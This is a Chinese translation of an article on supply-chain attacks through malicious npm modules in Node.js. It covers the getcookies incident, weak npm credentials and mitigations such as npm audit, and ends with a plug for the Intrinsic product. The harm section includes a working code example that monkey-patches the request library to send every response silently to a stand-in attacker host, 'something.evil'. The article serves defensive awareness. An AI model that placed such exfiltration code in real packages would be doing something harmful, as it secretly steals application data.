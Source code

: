 # 常见的Node.js攻击-恶意模块的危害 #

![](https://user-gold-cdn.xitu.io/2019/6/5/16b2563a4a730550?imageView2/0/w/1280/h/960/ignore-error/1)

根据最近 [npm的一项安全性调查]( https://link.juejin.im?target=https%3A%2F%2Fmedium.com%2Fnpm-inc%2Fsecurity-in-the-js-community-4bac032e553b ) 显示，77%的受访者对OSS/第三方代码的安全性表示担忧。本文将介绍关于这方面的内容，通过第三方代码引入应用程序的安全漏洞。具体来说，我们考虑被恶意引入的漏洞的场景。

## 我应该担心第三方模块吗? ##

你可能疑惑的第一件事是，是否需要担心恶意模块？程序员是一群非常友好的人，我们为什么要怀疑他们发布的模块呢?而且，如果npm上的每个包都是开源的，那么肯定有大量的眼睛来跟踪每一行代码，不是吗?此外，我只有几个模块，能有多少第三方代码呢?

在探究这些答案之前，让我们先看看这篇文章:“ [我正在从你的站点获取信用卡号码和密码，方法在这]( https://link.juejin.im?target=https%3A%2F%2Fhackernoon.com%2Fim-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5 ) "。这是一个虚构的故事，讲的是npm上的Node.js模块的作者，该模块能够偷偷地从网站上盗取信用卡。故事详细介绍了隐藏这些活动的各种方法。例如，代码从来不会在localhost环境上运行，它从来不会在开发控制台打开时运行，它只在很短一段时间内运行，并且发布到npm的代码被混淆了，并且与在GitHub上公开托管的代码不同。虽然这个故事是虚构的，但它所描述的技术方法是完全可行的。

当然，那只是一个虚构的故事。现实真的有这样的例子吗?npm最近发布了这篇文章:“ [恶意模块报告:getcookies]( https://link.juejin.im?target=https%3A%2F%2Fblog.npmjs.org%2Fpost%2F173526807575%2Freported-malicious-module-getcookies ) ”。本文介绍了一个实际情况，文中描述的模块被发布并成为其他模块的依赖项。当接收到精心设计的头信息时，将触发此恶意模块，然后执行请求中提供的任意JavaScript代码。

` getcookies` 模块确实也成为了几个模块的依赖项，但理论上这种损害并没有被广泛传播。您现在可能想知道会造成多大的破坏，或者攻击者会对npm生态系统产生多大的影响。在“ [收集弱npm凭证]( https://link.juejin.im?target=https%3A%2F%2Fgithub.com%2FChALkeR%2Fnotes%2Fblob%2Fmaster%2FGathering-weak-npm-credentials.md ) ”这篇文章中，一位安全研究人员描述了他如何获取npm用户帐户凭证(从而获得发布权)，这些帐户占整个npm包生态系统的14%。这是通过从许多可用的凭据泄漏和强制使用弱密码收集凭据来实现的。由于这些包是其他包的依赖项，研究人员能够瞬时影响54%的整个npm生态系统!如果研究人员发布了他所控制的每个包的补丁版本，然后运行一个 ` npm install` ，其中包含54%包中的任意一个包的依赖树，就会执行研究人员的代码。

更为严重的是，即使是善意的包作者也可能成为网络钓鱼和密码泄漏的受害者。为了防止以上问题的出现，npm确实为其服务增加了双因子认证 (2FA)。然而，即使添加了2FA，托管在npm上的包也不一定是全部启用的。2FA是可选的，不太可能所有的npm包作者都启用它。虽然2FA更安全，但许多2FA方法也容易受到钓鱼攻击。

当然，模块作者更有可能意外地向模块添加漏洞，而不是故意这样做。 [学者们发现Node.js模块中存在大量注入漏洞]( https://link.juejin.im?target=https%3A%2F%2Fblog.acolyer.org%2F2018%2F03%2F12%2Fsynode-understanding-and-automatically-preventing-injection-attacks-on-node-js%2F ) ，这可能会使您的应用程序变得脆弱。我们才真正开始关注这方面的研究，随着生态系统和Node.js开发人员数量的增加，针对npm模块的攻击只会变得越来越有利可图。

## 我使用了多少第三方代码? ##

如果让你预估你的代码库中有多少是应用程序代码，有多少是第三方代码？现在你应该得到一个数字，接下来在应用程序中运行以下命令。该命令计算应用程序中的代码行数，并将其与node_modules目录中的代码行数进行比较。

` npx @intrinsic/loc 复制代码`

这个命令的输出可能有点令人惊讶。对于一个拥有数千行应用程序代码的项目来说，拥有超过100万行的第三方代码是很常见的。

## 到底能造成多大的伤害? ##

现在你可能想知道到底会造成什么样的伤害。例如，如果您的应用程序依赖于模块A，而模块A又依赖于模块B，最后依赖于模块C，那么我们将一些重要数据传递给模块C的几率有多大呢?

为了让恶意包造成破坏，不管它在require层次结构中有多深，甚至不管它是否直接传递敏感数据。重要的是代码被 ` require` 了。下面是一个恶意模块如何修改全局 ` request` 的例子，它很难被检测到，并且会影响整个应用程序:

` { // Require the popular `request` module const request = require ( 'request' ) // Monkey-patch so every request now runs our function const RequestOrig = request.Request request.Request = ( options ) => { const origCallback = options.callback // Any outbound request will be mirrored to something.evil options.callback = ( err, httpResponse, body ) => { const rawReq = require ( 'http' ).request({ hostname : 'something.evil' , port : 8000 , method : 'POST' }) // Failed requests are silent rawReq.on( 'error' , () => {}) rawReq.write( JSON.stringify(body, null , 2 )) rawReq.end() // The original request is still made and handled origCallback.apply( this , arguments ) } if ( new.target) { return Reflect.construct(RequestOrig, [options]) } else { return RequestOrig(options) } }; } 复制代码`

这个代码示例(如果包含在Node.js进程所需的任何模块中)将拦截通过请求库发出的所有请求，并将响应发送到攻击者的服务器。

现在想象一下，如果我们把这个模块修改得更邪恶。例如，它甚至可以修补内部加密模块提供的方法。这可以用来将进程加密的任何字符串发送给第三方。这将影响将密码作为依赖项的其他模块，例如数据库模块在散列密码时执行auth或bcrypt模块。

模块还可以对express模块进行补丁，并创建一个中间件，该中间件在每个传入请求上运行。然后，这些数据可以很容易地广播给攻击者。

## 缓解 ##

我们可以做几件事来保护自己免受恶意模块的攻击。首先要做的是了解应用程序中安装的模块数量。您应该始终知道应用程序依赖于多少模块。如果您曾经找到两个提供相同功能的模块，请选择依赖关系较少的模块。拥有较少的依赖意味着拥有较小的攻击面。

一些较大的公司实际上会有一个团队手工审核每个软件包和软件包的白名单版本，然后允许公司的其他人员使用!考虑到npm上可用的包和发行版本的数量，这种方法并不实际。此外，许多包维护人员将安全更新作为补丁发布，这样用户就可以获得自动更新，但是如果审查过程很慢，那么应用程序的安全性就会降低!

npm最近收购了NSP并发布了 ` npm audit` ( https://link.juejin.im?target=https%3A%2F%2Fblog.npmjs.org%2Fpost%2F173719309445%2Fnpm-audit-identify-and-fix-insecure ) 。此工具将扫描已安装的依赖项，并将其与包含已知漏洞的模块/版本的黑名单进行比较。运行 ` npm install` 甚至会告诉您是否存在已知的漏洞。运行 ` npm audit fix` 程序将尝试用永久兼容的版本替换易受攻击的包(如果存在的话)。

这个工具虽然功能强大，但仅仅是抵御恶意模块的开始。这是一种保守的方法:它取决于已知和报告的漏洞。它依赖于在开发机器上运行命令的开发人员，查看输出，将依赖关系更改为不再需要脆弱模块，然后再次部署。如果已知某个漏洞，它将不会主动保护当前部署的服务。

![](https://user-gold-cdn.xitu.io/2019/6/5/16b2563f4074725f?imageView2/0/w/1280/h/960/ignore-error/1) 通常情况下，对于还没有补丁版本的包， ` npm audit` 会发现问题(如截图中显示的stringstream包)。例如,模块A不是经常更新,并且它依赖了一个有漏洞版本的模块B,然后模块B的版本被维护者修复了,应用程序所有者不能简单地更新模块B的版本。另一个缺点是，有时审计的结果是无法利用的问题，例如模块中的ReDoS漏洞，该漏洞从不接收来自最终用户的字符串。

读完这篇文章后，您甚至可能想完全避免使用所有第三方模块。当然，这是完全不切实际的，因为在npm上有大量可用的模块，重新创建它们将是一项昂贵的工作。构建Node.js应用程序的吸引力来自于npm上庞大的模块生态系统，以及我们构建可生产应用程序的速度。避免第三方模块违背了这一目的。

记住，一定要注意您已经安装的模块，注意您的依赖关系树，注意具有大量依赖关系的模块，并仔细检查您正在考虑添加的模块。这些是防止恶意模块进入依赖关系树的最佳方法。一旦模块成为依赖项，及时更新它们，因为这是获得安全补丁的好方法。不幸的是，如果您的应用程序的依赖关系树中最终出现了一个恶意模块，或者发现了一个零日漏洞，那么你也无能为力。您可以继续运行 ` npm audit` ，希望有人报告易受攻击的代码，但即使这样也意味着您应用对外使用期间易受攻击。如果您真的希望主动地保护Node.js应用程序免受恶意模块的攻击，防止恶意的网络请求、危险的文件系统访问和限制子进程执行，或者您需要使用 ` Intrinsic` ( https://link.juejin.im?target=https%3A%2F%2Fintrinsic.com%2F ) 。

> 
> 
> 
> 译者注：前面介绍了那么多，后面的文章话锋一转介绍了Intrinsic这个产品，感兴趣的朋友异步到他们的官网查看，不再继续翻译。
> 
> 

原文： [common node.js attack vectors:the dangers of malicious modules]( https://link.juejin.im?target=https%3A%2F%2Fmedium.com%2Fintrinsic%2Fcommon-node-js-attack-vectors-the-dangers-of-malicious-modules-863ae949e7e8 )